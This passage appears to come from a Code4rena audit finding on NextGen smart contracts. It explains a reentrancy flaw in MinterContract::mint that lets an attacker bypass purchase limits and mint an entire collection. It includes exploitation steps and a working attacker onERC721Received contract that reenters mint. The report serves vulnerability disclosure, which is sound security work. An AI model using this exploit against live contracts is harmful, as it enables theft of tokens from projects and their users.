 [innertia](https://github.com/code-423n4/2023-10-nextgen-findings/issues/1828), [nuthan2x](https://github.com/code-423n4/2023-10-nextgen-findings/issues/1529), [joesan](https://github.com/code-423n4/2023-10-nextgen-findings/issues/1022), [danielles0xG](https://github.com/code-423n4/2023-10-nextgen-findings/issues/775), [Soul22](https://github.com/code-423n4/2023-10-nextgen-findings/issues/648), and [y4y](https://github.com/code-423n4/2023-10-nextgen-findings/issues/528)*

An attacker can reenter the `MinterContract::mint` function, bypassing the `maxCollectionPurchases` check and minting the entire collection supply.

### Proof of Concept

The vulnerability stems from the absence of the [Check Effects Interactions](https://fravoll.github.io/solidity-patterns/checks_effects_interactions.html) pattern. As seen here, `NextGenCore::mint` updates the `tokensMintedAllowlistAddress` and `tokensMintedPerAddress` after making an external call:

```solidity
    // Minting logic is here
    if (phase == 1) {
        tokensMintedAllowlistAddress[_collectionID][_mintingAddress]++;
    } else {
        tokensMintedPerAddress[_collectionID][_mintingAddress]++;
    }
}
```

### Exploitation Steps:

- Attacker calls `MinterContract::mint` with a malicious contract as the receiver.
- The malicious contract executes a crafted `onERC721Received()`.
- `MinterContract::mint` invokes `NextGenCore::mint`, which uses `_safeMint()` internally.
- `_safeMint()` calls `_recipient.onERC721Received()`, leading to the minting of the complete collection supply.

### An example of the attacker `onERC721Received()` implementation:

```solidity
    function onERC721Received(
        address,
        address,
        uint256,
        bytes memory
    ) public override returns (bytes4) {
        (, , uint256 circulationSupply, uint256 totalSupply, , ) = nextGenCore
            .retrieveCollectionAdditionalData(1);

        if (circulationSupply == totalSupply)
            return this.onERC721Received.selector;

        bytes32[] memory merkleProof = new bytes32[](1);
        merkleProof[0] = bytes32(0);
        minterContract.mint{value: 1e18}({
            _collectionID: 1,
            _numberOfTokens: 1,
            _maxAllowance: 0,
            _tokenData: "",
            _mintTo: address(this),
            merkleProof: merkleProof,
            _delegator: address(0),
            _saltfun_o: 0
        });

        return this.onERC721Received.selector;
    }
```